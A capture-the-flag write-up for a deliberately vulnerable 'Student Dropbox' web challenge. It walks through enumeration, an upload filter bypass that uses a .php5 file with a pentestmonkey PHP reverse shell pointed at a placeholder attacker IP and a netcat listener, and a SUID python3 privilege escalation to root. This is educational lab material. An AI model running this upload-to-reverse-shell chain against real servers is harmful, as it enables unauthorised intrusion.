## WRITEUP - STUDENT DROPBOX

Category: *web*
Level: *medium*

**Description** : Your professor asked you to submit the report for your school project. To make things easier, he created a simple platform where you can upload your work.

However, since he likes to test your curiosity, he intentionally left a vulnerability in the system. As an extra challenge, he announced **a bonus of 10 points on the final exam** to anyone who can retrieve the **flag** hidden in the root directory as proof.

--------------------------------------------------
## Step 1 : Launch the Docker Image

-   The image is available on my Docker Hub:

<pre>Link : https://hub.docker.com/repositories/razafindraibe</pre>

-   Pull the image:

<pre>docker pull razafindraibe/student_dropbox:latest</pre>



-   Run a container from the image:

<pre>docker run --rm -d -p 80:80 -p 22:22 razafindraibe/student_dropbox:latest</pre>



---------------------------------------------------

## Step 2 : Enumeration

-   First, check the Docker container’s IP address:





-   Let’s start with an **Nmap scan**:



We can see that two ports are open: **80 (HTTP) and 22 (SSH)** — pretty standard.

- Next, let’s use <code>Gobuster</code> to look for hidden directories on the website:



Interesting… we found two directories: <code>/student</code> and <code>/projects</code>.

-   Visiting the main page shows the default Apache landing page:



C'est la page par defaut d'apache.

-   Navigating to <code>/student</code> reveals the upload page where we are supposed to submit our project reports :



However, only <code>.zip</code> or <code>.gz</code> are allowed.

-  If we go to <code>/projects</code> , we can see the files that have been uploaded .



-----------------------------------------------

## Step 3 : Exploitation

-   First, I tried uploading a simple <code>.txt</code> file to see how the application reacts :





Good job, teacher ! The server rejects it. I also tested with <code>.py </code>,<code>.php </code> etc ... all resulted in errors.

-   Uploading a <code>zip</code> , and <code>gz</code>, et y a pas erreur mais , file does not trigger an error, but nothing appears under <code>/projects</code>. Suspicious…

-   Time to try something more interesting : a <code>PHP reverse shell</code> et Before that, let’s prepare our listener : <code>nc -lvnp 4444</code>

- I used the classic : <code> https://github.com/pentestmonkey/php-reverse-shell </code>



**Steps** :

1- Copy the content of <code>php-reverse-shell.php</code>

2- Create a new file, but change the extension to <code>php5</code> or <code>php4</code>



3- Paste the reverse shell code and edit the following variables:

<pre>
    -   $IP = [YOUR_ATTACKER_IP]
    -   $PORT = what you want (I choose 4444)
</pre>



4- Upload the modified <code>reverse shell.</code>



Bingo 🎉 — the file extension is accepted!

5- Check the <code>/projects</code> directory:



6- Start the <code>netcat</code> listener :



7- Click on the uploaded <code>shell.php5</code>

8- Go back to  <code>netcat</code> ....



🎯 Success! We now have a working <code>reverse shell</code> on the target.

-----------------------------------------------

## Step 4 :  Privilege Escalation

-   First, I checked for available sudo permissions with: <code>sudo -l</code> . But nothing useful showed up:



-    Next, I searched for <code>SUID binaries</code> that might allow privilege escalation: 

<pre>find / -perm -4000 -type f 2>/dev/null</pre>



Interesting… we found <code>/usr/bin/python3.10</code>, owned by root.
If we can run this, it should allow us to escalate privileges.

-   Time to check **GTFOBins** for a Python SUID exploit:





-   Running the suggested command directly threw an error:



-    That’s because the binary is <code>python3</code> not <code>python</code>.

Adjusting the command accordingly…



💥 Boom! Root access obtained.

-   Now, let’s search for the <code>flag</code> to earn the professor’s <code>+10 bonus points:</code>





<pre>flag{4rbitr4ry_f1le_uplo4d_to_rce}</pre>
